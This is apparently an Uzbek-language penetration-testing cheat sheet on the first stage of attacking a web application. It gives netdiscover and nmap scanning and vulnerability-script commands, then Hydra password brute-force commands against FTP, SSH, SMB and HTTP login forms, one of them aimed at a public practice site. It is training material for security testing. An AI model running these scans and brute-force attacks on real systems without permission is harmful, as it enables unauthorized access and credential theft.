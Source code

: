 **1. Veb-ilovani skanerlash va zaifliklarni aniqlash**   
Birinchi qadam – IP manzilni skanerlash va veb-ilovaning qanday texnologiyalar asosida ishlayotganini aniqlash.  

1. Lokal tarmoqdagi (LAN) IP manzillar va MAC manzillarini aniqlash uchun tarmoqni skanerlash.   
```
netdiscover -r 192.168.1.0/24
```

```
netdiscover -i wlan0 -r 192.168.0.0/16
```

2. Ochiq portlar va xizmatlarni aniqlash (Port Scanning).   
```
nmap -sC -sV -A -p- <IP-manzil>
```

3. Xizmatga bog‘liq zaifliklarni aniqlash.
```
cd /usr/share/nmap/scripts/
ls -al *vulns*
```   
 -  **FTP zaifligini aniqlash:**
```
nmap --script ftp-vuln* -p 21 [IP-manzil]
```
 - **SMB zaifligini aniqlash:**   
```
nmap --script smb-vuln* -p 445 [IP-manzil]
```
 - **HTTP zaifligini aniqlash:**
```
nmap --script http-vuln* -p 80 [IP-manzil]
```   
 - **Nmap-Vulners**
```
git clone https://github.com/vulnersCom/nmap-vulners /usr/share/nmap/scripts/vulners
nmap --script-updatedb
nmap -sV -Pn 192.168.1.12 --script=vulners/vulners.nse
```

4. Hydra yordamida FTP, SSH, SMB va HTTP xizmatlariga Brute-Force hujumi. (`sudo apt update && sudo apt install hydra -y`)   
 - **FTP ga Brute-Force qilish**
```
ls /usr/share/wordlists
hydra -l admin -P passwords.txt ftp://192.168.1.10
hydra -L users.txt -P passwords.txt ftp://192.168.1.10
```
 - **SSH ga Brute-Force qilish**
```
hydra -l root -P passwords.txt ssh://192.168.1.10
hydra -L users.txt -P passwords.txt ssh://192.168.1.10
hydra -l root -P passwords.txt ssh://192.168.1.10:2222
```
 - **SMB ga Brute-Force qilish**
```
hydra -L users.txt -P passwords.txt smb://192.168.1.10
hydra -L users.txt -P passwords.txt smb://domain/192.168.1.10
```
 - **HTTP Basic Authentication Brute-Force**
```
hydra -l admin -P passwords.txt http://192.168.1.10
hydra -l admin -P passwords.txt http-get://192.168.1.10/admin
```
 - **HTTP POST Form Brute-Force**
```
hydra -L users.txt -P passwords.txt 192.168.1.10 http-post-form "/admin:username=^USER^&password=^PASS^:Login failed"
hydra -l admin -P passwords.txt 192.168.1.10 http-post-form "/login:username=^USER^&password=^PASS^:Login failed"
```

```
http://testasp.vulnweb.com/Login.asp?RetURL=%2FDefault%2Easp%3F
hydra -l admin -P /usr/share/wordlists/rockyou.txt testasp.vulnweb.com http-post-form "/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^USER^&tfUPass=^PASS^:S=logout" -vV -f
```
